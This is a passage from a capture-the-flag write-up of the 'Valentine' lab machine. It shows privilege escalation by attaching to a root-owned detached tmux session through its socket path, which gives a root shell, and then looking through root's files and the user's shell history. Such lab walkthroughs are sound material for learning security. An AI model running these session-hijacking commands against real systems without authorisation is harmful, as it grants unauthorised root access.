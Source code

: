 Going back to the LinEnum output, we also see that it is listed as a valid
login shell..

```
Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
```

If we think back on the theme of this box, we discovered a `notes.txt` file
which seemed to indicate a todo list for the developer which had an indication
that he needed to come back later and fix the decoding and encoding.. perhaps
that meant he has a session which he has running and detached from which we
can attach to? We have the `socket-path` that `root` is using (/.devs/dev_sess),so let's see what we can do with it..

```
hype@Valentine:~$ /usr/bin/tmux -S /.devs/dev_sess list-sessions
0: 1 windows (created Mon Jul 16 13:43:03 2018) [80x24]
```

Seems like there is a single unattached session, so let's try to attach to it!

```
hype@Valentine:~$ /usr/bin/tmux -S /.devs/dev_sess attach
root@Valentine:/#
```

Whoa.. root shell! Now onto the flag..

```
root@Valentine:# cd /root
root@Valentine:~# ls
curl.sh  root.txt
```

Out of curiousity, went to go take a look at the `.bash_history` file of `hype`
and saw there were clues there as well of what amounted to what `hype` was doing
as he/she was doing before taking a coffee break.....

```
hype@Valentine:~$ cat .bash_history 

exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
```

